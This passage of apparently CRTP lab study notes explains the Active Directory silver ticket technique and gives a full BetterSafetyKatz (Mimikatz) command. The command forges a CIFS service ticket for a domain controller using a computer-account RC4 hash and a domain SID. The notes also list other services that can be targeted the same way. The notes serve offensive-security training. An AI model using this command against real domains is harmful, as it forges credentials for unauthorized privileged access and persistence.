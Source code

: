 ![Alt text](/assets/images/posts/crtp/10.png){: .align-center}



- A valid TGS (Golden ticket is TGT)
- Encrypted and Signed by the hash of the service account 

> remember: Golden ticket is signed by hash of krbtgt

- Services rarely check PAC (Privileged Attribute Certificate)
- Services will allow access only to the services themselves
- Reasonable persistence period (default 30 days for computer accounts)

**Using hash of the Domain Controller computer account, below command provides access to file system on the DC**:
```powershell 
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:e9bb4c3d1327e29093dfecab8c2676f6 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

**Similar command can be used for any other service on a machine**:

> Which services? HOST, RPCSS, HTTP, WSMA and many more.

